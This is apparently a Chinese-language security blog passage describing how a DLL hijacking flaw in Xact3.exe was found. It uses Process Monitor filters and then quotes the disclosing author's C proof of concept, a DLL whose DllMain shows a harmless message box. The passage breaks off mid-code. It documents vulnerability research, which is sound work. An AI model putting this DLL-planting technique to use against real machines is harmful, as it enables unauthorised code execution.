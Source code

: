 ### 寻找过程

在这里我还是使用[Process Monitor](https://docs.microsoft.com/en-gb/sysinternals/downloads/procmon)进行分析：

**设置过滤器**

> 过滤器可以有效的帮我们排除一些不需要关注的信息

* Filter > Filter.. > Process Name > "Xact3.exe"

这样在创建`Xact3.exe`进程时，我们的过滤器就会起作用了，会将该进程的所有行为展示出来。

![0x01](https://images.payloads.online/27fb73d6-4f5f-11ec-b2e1-00d861bf4abb.png)

然后点击“ADD”，将过滤条件生效。

虽说这样能看到所有的行为，但是还不够精确，需要再加个`Result`为`NAME NOT FOUND`的条件。


**查看加载DLL过程**

我先创建一个`1.xap`：

> 新建文本文档->重命名为1.xap

通过`Xact3.exe`打开，效果如下：

![0x02](https://images.payloads.online/2837fd4c-4f5f-11ec-a0b4-00d861bf4abb.png)

可以看出，该进程在不断寻找`xbdm.dll`，直接从该进程的物理路径开始寻找，这很大可能存在DLL劫持漏洞。

## 0x02 利用过程

漏洞作者披露的文章中附带了测试的POC，但是需要编译，我们可以使用MSF直接生成DLL测试。

作者POC：

```c
#include <windows.h>

/* hyp3rlinx */

/*
gcc -c -m32 xbdm.c
gcc -shared -m32 -o xbdm.dll xbdm.o
*/

void executo(){
 MessageBox( 0, "3c184981367094fce3ab70efc3b44583" , "philbin :)" , MB_YESNO + MB_ICONQUESTION );
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason,LPVOID lpvReserved){
switch(fdwReason){
case DLL_PROCESS_ATTACH:{
 executo();
break;
}
case DLL_PROCESS_DETACH:{
 executo();
break;
}
case DLL_THREAD_ATTACH:{
 executo();
break;
}
case DLL_THREAD_DETACH:{
 executo();
break;
}
```